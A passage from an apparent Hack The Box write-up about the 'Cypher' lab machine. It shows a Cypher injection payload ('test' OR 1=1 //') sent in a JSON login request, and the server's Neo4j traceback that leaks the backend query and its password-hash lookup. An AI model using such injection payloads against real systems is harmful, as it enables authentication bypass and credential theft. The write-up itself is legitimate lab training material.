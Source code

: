 So our credentials are posted as JSON to `/api/auth`. We test if the parameter username is vulnerable to Cypher Injection.

```bash
POST /api/auth
Host: cypher.htb
Content-Type: application/json

{
  "username": "test' OR 1=1 //",
  "password": "test"
}
```

Response:

```bash
HTTP/1.1 400 Bad Request
Server: nginx/1.24.0 (Ubuntu)
Date: Sat, 01 Mar 2025 21:14:14 GMT
Content-Length: 3480
Connection: keep-alive

Traceback (most recent call last):
  File "/app/app.py", line 142, in verify_creds
    results = run_cypher(cypher)
  File "/app/app.py", line 63, in run_cypher
    return [r.data() for r in session.run(cypher)]
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/session.py", line 314, in run
    self._auto_result._run(
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 221, in _run
    self._attach()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 409, in _attach
    self._connection.fetch_message()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner
    func(*args, **kwargs)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message
    res = self._process_message(tag, fields)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message
    response.on_failure(summary_metadata or {})
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Query cannot conclude with MATCH (must be a RETURN clause, a FINISH clause, an update clause, a unit subquery call, or a procedure call with no YIELD). (line 1, column 1 (offset: 0))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'test' OR 1=1 //' return h.value as hash"
 ^}

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/app/app.py", line 165, in login
    creds_valid = verify_creds(username, password)
  File "/app/app.py", line 151, in verify_creds
    raise ValueError(f"Invalid cypher query: {cypher}: {traceback.format_exc()}")
ValueError: Invalid cypher query: MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'test' OR 1=1 //' return h.value as hash: Traceback (most recent call last):
  File "/app/app.py", line 142, in verify_creds
    results = run_cypher(cypher)
  File "/app/app.py", line 63, in run_cypher
    return [r.data() for r in session.run(cypher)]
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/session.py", line 314, in run
    self._auto_result._run(
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 221, in _run
```

[^1]: https://pentester.land/blog/cypher-injection-cheatsheet/